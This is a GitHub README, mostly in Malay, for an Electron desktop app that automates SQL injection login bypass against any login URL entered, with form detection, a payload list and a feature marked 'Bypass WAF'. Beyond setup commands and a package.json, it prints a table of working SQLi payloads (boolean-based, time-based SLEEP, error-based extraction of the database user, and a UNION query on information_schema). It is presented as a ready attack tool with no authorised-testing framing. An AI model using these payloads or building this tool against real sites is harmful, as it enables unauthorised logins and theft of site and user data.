 # sqli-electron-gui
-versi GUI untuk SQLi Login Bypass guna Electron 

# Versi Desktop App (Electron)
 - Fungsi	Status
 - Input URL login	✅ Textbox
 - Auto detect form fields	✅
 - Senarai payload bypass	✅ Dropdown / textarea
 - Result response	✅ Output log
 - Snapshot result	✅ Boleh preview dalam tab
 - Simpan HTML	✅ Download butang
 - Multi-target list	⏳ Akan tambah
 - Proxy / header custom	⏳ Akan tambah
 - Bypass WAF	✅ (aktif)
 
 # Struktur Versi Electron GUI
 
- 📁 my-sqli-gui
  - ├── main.js (Electron main process)
  - ├── preload.js
  - ├── index.html
  - ├── renderer.js (frontend logic)
  - ├── assets/
  - └── logic/
    - └── bypass.js (payload handler)


      ## Struktur Projek
         - 📁 sqli-electron-gui/
            - ├── package.json
            - ├── main.js           // Electron Main Process
            - ├── preload.js        // Bridge ke renderer
            - ├── index.html        // GUI Utama
            - ├── renderer.js       // Logik frontend
            - ├── sqli.js           // SQLi form detector & executor
            - └── output/           // Folder untuk simpan snapshot

# ⚙️ LANGKAH 1 – Setup Projek Electron
- mkdir sqli-electron-gui
- cd sqli-electron-gui
  ### Init Projek + Install Electron
  - npm init -y
  - npm install axios cheerio qs electron
  - 
  ### Update package.json
``` json
{
  "name": "sqli-electron-gui",
  "version": "1.0.0",
  "description": "SQLi Login Bypass Tool (Electron GUI)",
  "main": "main.js",
  "scripts": {
    "start": "electron ."
  },
  "author": "bossku",
  "license": "MIT",
  "dependencies": {
    "axios": "^1.6.8",
    "cheerio": "^1.0.0-rc.12",
    "electron": "^27.0.0",
    "qs": "^6.11.2"
  }
}

```
# ⚙️ LANGKAH 2
```bash
npm install
npm start
```



![test](https://github.com/user-attachments/assets/5bb0604a-aac0-4817-ae5c-cde354489451)


#Disable Gpu 

![error](https://github.com/user-attachments/assets/1642b6b0-60d5-45f5-a808-8b06926bd891)

```bash
set ELECTRON_DISABLE_GPU=1
npm start
```
# Update (soon bila stable ) 
```bash
Teknik	Payload contoh	Cara detect
✅ Boolean-Based	' OR 1=1-- vs ' OR 1=2--	Banding HTML
✅ Time-Based	' OR IF(1=1, SLEEP(3), 0)--	Ukur delay response
✅ Error-Based	' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(CHAR(58,97,58), (SELECT user()), CHAR(58,98,58), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x)a)--	Detect error
✅ DIOS	' UNION SELECT null, table_name FROM information_schema.tables--	Extract table
```

![dump](https://github.com/user-attachments/assets/d6942e4c-8e27-415c-b76d-b763c245180d)
